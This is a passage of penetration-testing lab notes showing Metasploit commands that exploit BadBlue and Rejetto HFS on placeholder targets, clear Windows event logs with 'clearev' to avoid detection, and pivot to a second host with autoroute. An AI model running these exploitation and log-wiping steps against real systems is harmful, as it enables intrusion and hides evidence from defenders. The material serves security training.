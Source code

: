 ### 8.7. Cleaning Windows Event Logs

Clearing tracks after exploiting a system is a crucial step for attackers who want to avoid detection and maintain access. Metasploit, a popular framework for developing and executing exploit code against a remote target machine, also includes techniques that can be used to cover tracks after an exploit.

**Objective:** Your task is to exploit the vulnerable application and then clear the Windows Event logs with Metasploit.

```shell
# Gain access to the system
service postgresql start && msfconsole
db_nmap -sV <target_IP>
use exploit/windows/http/badblue_passthru
set RHOSTS <target_IP>

sysinfo
getuid 

# Whenever you successfully gain access to a Windows target, all of your activity is being logged in the form of Windows events. Meterpreter provides you with the ability to clear the entire Windows Event log. This can be done by running the following command:
clearev
```

### 8.8. Windows Pivoting

Pivoting with port forwarding.

The concept of pivoting is a crucial technique in penetration testing that allows an attacker to move from one compromised system to another within the same network. By exploiting vulnerabilities on the initial target, you will gain access and then pivot to exploit and access a secondary target.

**Objective:** Exploit vulnerabilities in the target machines to gain access and retrieve a flag.

```shell
ping -c 1 <ip_victim_1>
ping -c 1 <ip_victim_2> # Target not reachable

nmap -sV <ip_victim_1>
searchsploit hfs 2.3

service postgresql start && msfconsole
workspace -a pivoting

# VICTIM 1
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOSTS <ip_victim_1>
exploit

sysinfo
getuid
# We have successfully exploited the target vulnerable application (hfs) and received a meterpreter shell.
ipconfig
# We can observe, there is only one network adapter and we have two machine IP addresses but we cannot access “Victim Machine 2” directly from the attacker’s machine. We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.
run autoroute -s <CIDR_notation> # e.g. 10.0.16.0/20

background

```